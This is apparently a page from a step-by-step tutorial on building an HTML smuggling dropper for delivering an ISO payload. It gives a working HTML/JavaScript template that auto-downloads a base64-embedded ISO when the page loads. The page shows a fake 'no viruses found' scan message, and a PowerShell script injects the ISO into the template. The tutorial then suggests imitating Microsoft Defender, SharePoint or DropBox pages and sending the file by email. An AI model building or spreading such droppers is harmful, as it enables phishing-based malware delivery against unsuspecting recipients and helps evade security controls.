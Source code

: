 ```yaml
---
title: "Step 3: Assemble the HTML"
---
```


<h1>Step 3: Assemble the HTML</h1>

## HTML Dropper Design

With the ISO in-hand, we can begin constructing the HTML dropper. When opened, our HTML dropper will trigger the browser to "download" the ISO. We'll accomplish this using some clever JavaScript embedded in the HTML. For added measure, we'll make the HTML look as if it's performing a safety check on the file before initiating the download.

## Create the HTML Template

Rather than put everything together by hand, we'll create a base HTML template, along with a PowerShell script that will inject the `document_archive.iso` file into the template. This way, we can easily replace the ISO without having to re-write the HTML file by hand. Here's our basic template:

```html
<!DOCTYPE html>
<html>
    <head>
        <script>
            const filename = "document_archive.iso";
            const contentBase64 = (
                "ISO_GOES_HERE"
            );
            function triggerDownload() {
                var element = document.createElement("a");
                element.setAttribute("href", `data:application/octet-stream;base64,${contentBase64}`);
                element.setAttribute("target", "_self");
                element.setAttribute("download", filename);
                element.style.display = "none";
                document.body.appendChild(element);
                element.click();
                document.body.removeChild(element);
            }
        </script>
    </head>
    <body onload="triggerDownload()">
        <b>Scan complete! No viruses found. Downloading document archive...</b>
    </body>
</html>
```

Save this file as `html_template.htm`, in the `PoC Dropper` directory.

Our template is obviously not going to win any HTML design awards, but it'll suffice. When the HTML file finishes loading, the `triggerDownload` JavaScript function gets called. The function creates an invisible hyperlink, configures it to save the ISO file (embedded in the `contentBase64` variable), then automatically clicks the link. Once clicked, the JavaScript automatically removes the hyperlink from the page. For extra credibility, we've added a message to the body of the HTML which claims that the file was scanned before the download commenced.

## Automate the HTML Build

In order to complete the HTML dropper, we'll need to replace the `ISO_GOES_HERE` block with the Base64-encoded ISO file. We can do this with PowerShell. Create a new PowerShell script called `build_html.ps1`, in the `PoC Dropper` directory, with the following contents:

```sh
# Read HTML from `html_template.htm`.
$html = Get-Content -path "html_template.htm";

# Base64-encode the ISO.
$encodedIso = [convert]::ToBase64String((Get-Content -path "document_archive.iso" -Encoding byte));
$splitLines = $encodedIso -split "(.{78})" | ? {$_};
$encodedLines = $splitLines -join "`"`n                `"";

# Replace the placeholder with the Base64-encoded ISO.
$html = $html -replace "ISO_GOES_HERE", $encodedLines;

# Write the HTML to `output.htm`.
$html | Out-File -FilePath "output.htm" -Encoding ascii;
```

## Build the HTML

With our script complete, we can execute the `build_html.ps1` script, which will produce the `output.htm` file. The `output.htm` will look something like this:

```javascript
// [...]
const filename = "document_archive.iso";
const contentBase64 = (
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
    // [...]
);
function triggerDownload() {
    var element = document.createElement("a");
    element.setAttribute("href", `data:application/octet-stream;base64,${contentBase64}`);
    element.setAttribute("target", "_self");
// [...]
```

Don't worry if it looks like the Base64 file is all `A`s; this is common for the filetype. Having confirmed the `output.htm` file was successfully written, we can rename it to `document.htm`, and it's ready for distribution!

# Improving the Design

Our HTML dropper is complete, but there are plenty of ways it could be improved. For one, we could use stylesheets and JavaScript to create a more convincing page. If the target has some form of link protection (such as the one provided by Microsoft Defender 365), the HTML could be crafted to mimic its look and feel, so that it blends in with what the target is used to seeing. Some attackers tailor the HTML to appear as a file-sharing portal, like SharePoint or DropBox, lending similar credibility.

Another pinch-point is the size of the `document.htm` file. While the contents of the ISO file are only a few kilobytes large, the ISO file itself can be a few megabytes in size. With our simple PoC stager, this isn't much of an issue, but bundling a larger stager could be a problem, as emails often have a limit on maximum attachment size. To account for this, one could use `gzip` compression to shrink the ISO, resulting in a much smaller file. However, this would require the JavaScript to decompress the ISO in-memory prior to triggering the download.

We will leave these improvements as a challenge for the reader.